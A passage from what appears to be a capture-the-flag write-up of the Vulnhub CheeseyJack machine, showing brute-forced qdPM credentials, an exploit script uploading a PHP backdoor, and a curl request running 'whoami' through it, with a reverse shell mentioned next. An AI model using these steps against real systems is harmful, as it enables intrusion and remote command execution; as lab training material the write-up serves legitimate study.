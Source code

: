 ```bash
                  ___|  \/  \ \ / /__ ___ 
                 / -_) |\/| |\ V / -_) -_)
    Powered by:  \___|_|  |_| \_/\___\___|
                          
    
Number of passwords loaded:  132
Number of usernames loaded:  2
Number of attempts to brute force:  264 

Found some credentials!
The username is: ch33s3m4n@cheeseyjack.local
The password is: qdpm


Finished!

```
We got a valid username and password found by brute forcing. With this information we can run the exploit to upload a malicious file what helps us execute commands from our target.

```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/CheeceyJack]
└─$ python3 50944.py -url http://10.0.2.42/project_management/ -u ch33s3m4n@cheeseyjack.local -p qdpm
You are not able to use the designated admin account because they do not have a myAccount page.

The DateStamp is 2023-05-04 09:59 
Backdoor uploaded at - > http://10.0.2.42/project_management/uploads/users/639322-backdoor.php?cmd=whoami
```
An example how we should executed the command via the URL is shown to us. Now let's use curl to see what we get back.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/CheeceyJack]
└─$ curl -v http://10.0.2.42/project_management/uploads/users/639322-backdoor.php?cmd=whoami                                                      
*   Trying 10.0.2.42:80...
* Connected to 10.0.2.42 (10.0.2.42) port 80 (#0)
> GET /project_management/uploads/users/639322-backdoor.php?cmd=whoami HTTP/1.1
> Host: 10.0.2.42
> User-Agent: curl/7.87.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 04 May 2023 17:01:14 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Content-Length: 20
< Content-Type: text/html; charset=UTF-8
< 
<pre>www-data
* Connection #0 to host 10.0.2.42 left intact
</pre>   
```
It looks like `www-data` is running our commands. Now we could create a netcat listener and run a command to establish a reverse shell.
